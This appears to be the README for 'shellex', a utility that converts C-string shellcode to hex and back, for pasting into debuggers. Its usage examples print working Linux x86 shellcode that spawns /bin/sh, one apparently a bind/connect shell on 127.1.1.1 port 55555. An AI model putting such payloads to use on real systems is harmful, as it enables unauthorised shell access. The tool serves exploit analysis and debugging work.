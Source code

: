 # shellex
**WARNING**: the ugliest code in the world, I have developed this just for my own needs, you can improve the project via PR.

C-shellcode to hex converter

Are you having problems converting C-shellcodes to HEX (maybe c-comments+ASCII mixed?) 

Here is shellex. If the shellcode can be compiled in a C compiler shellex can convert it.

Just execute shellex, paste the shellcode c-string and press ENTER. 

To end use Control+Z(Windows)/Control+D(Linux)

Converting c-shellcode-multi-line-hex+mixed_ascii (pay attention in the mixed part **\x68//sh\x68/bin\x89**):
```
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"
```

shellex output:
```
6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80
```

Now you can copy the output & paste it to Immunity Debugger, ollydbg, x64dbg, 010 hexadecimal editor etc.

Converting c-shellcode-multi-line-with-comments:
```
"\x68"
"\x7f\x01\x01\x01"  // <- IP:  127.1.1.1
"\x5e\x66\x68"
"\xd9\x03"          // <- Port: 55555
"\x5f\x6a\x66\x58\x99\x6a\x01\x5b\x52\x53\x6a\x02"
"\x89\xe1\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79"
"\xf9\xb0\x66\x56\x66\x57\x66\x6a\x02\x89\xe1\x6a"
"\x10\x51\x53\x89\xe1\xcd\x80\xb0\x0b\x52\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
"\xeb\xce"
```

shellex output:
```
68 7F 01 01 01 5E 66 68 D9 03 5F 6A 66 58 99 6A 01 5B 52 53 6A 02 89 E1 CD 80 93 59 B0 3F CD 80 49 79 F9 B0 66 56 66 57 66 6A 02 89 E1 6A 10 51 53 89 E1 CD 80 B0 0B 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 EB CE
```

Do you need the shellex output as a new c-shellcode-string? just use -h parameter, example converting the shellex output:
```
./shellex -h 6A 17 58 31 DB CD 80 6A 0B 58 99 52 68 2F 2F 73 68 68 2F 62 69 6E 89 E3 52 53 89 E1 CD 80

\x6A\x17\x58\x31\xDB\xCD\x80\x6A\x0B\x58\x99\x52\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3\x52\x53\x89\xE1\xCD\x80
```

## Installation

```
git clone https://github.com/David-Reguera-Garcia-Dreg/shellex.git
```

### For Windows:

binary: shellex\bins\shellex.exe

### For Linux

Deps:

```
sudo apt-get install tcc
```

binary: shellex/linuxbins/shellex

## Compilation

For Windows just use Visual Studio 2013
* https://my.visualstudio.com/Downloads?q=visual%20studio%202013&wt.mc_id=o~msft~vscom~older-downloads
* https://go.microsoft.com/fwlink/?LinkId=532495&clcid=0x409

For Linux just: 
```
cd shellex/shellex
gcc -o shellex shellex.c
./shellex
```


